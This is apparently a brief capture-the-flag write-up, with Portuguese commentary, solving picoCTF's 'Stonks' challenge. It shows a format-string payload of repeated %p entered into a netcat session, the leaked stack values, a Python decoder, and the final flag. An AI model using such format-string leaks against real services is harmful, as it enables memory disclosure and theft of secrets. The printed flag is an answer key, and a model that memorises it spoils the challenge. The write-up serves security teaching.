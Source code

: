 ```
nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Buying stonks with token:
0x8a3b450,0x804b000,0x80489c3,0xf7f60d80,0xffffffff,0x1,0x8a39160,0xf7f6e110,0xf7f60dc7,(nil),0x8a3a180,0x1,0x8a3b430,0x8a3b450,0x6f636970,0x7b465443,0x306c5f49,0x345f7435,0x6d5f6c6c,0x306d5f79,0x5f79336e,0x32666331,0x30613130,0xffda007d,0xf7f9baf8,0xf7f6e440,0xf8bb5a00,0x1,(nil),0xf7dfdce9,
Portfolio as of Fri Aug  2 05:05:33 UTC 2024


1 shares of SXD
1 shares of NJF
1 shares of CN
4 shares of HXQ
3 shares of UR
81 shares of ONKL
188 shares of F
451 shares of G
327 shares of ANLB
175 shares of U
189 shares of K
Goodbye!
```

Criei um script em python para olhar para o output e gerar uma solução:

```python
output = '0x8a3b450,0x804b000,0x80489c3,0xf7f60d80,0xffffffff,0x1,0x8a39160,0xf7f6e110,0xf7f60dc7,(nil),0x8a3a180,0x1,0x8a3b430,0x8a3b450,0x6f636970,0x7b465443,0x306c5f49,0x345f7435,0x6d5f6c6c,0x306d5f79,0x5f79336e,0x32666331,0x30613130,0xffda007d,0xf7f9baf8,0xf7f6e440,0xf8bb5a00,0x1,(nil),0xf7dfdce9'
output = output.split(',')
decoded = ''
for _ in range(len(output)):
        output[_] = output[_].encode()
        try:
                decoded += int.to_bytes(int(output[_], 16), 8, 'big').decode()[::-1]
        except (UnicodeDecodeError, ValueError):
                continue

print(decoded)
```

flag: `picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}`
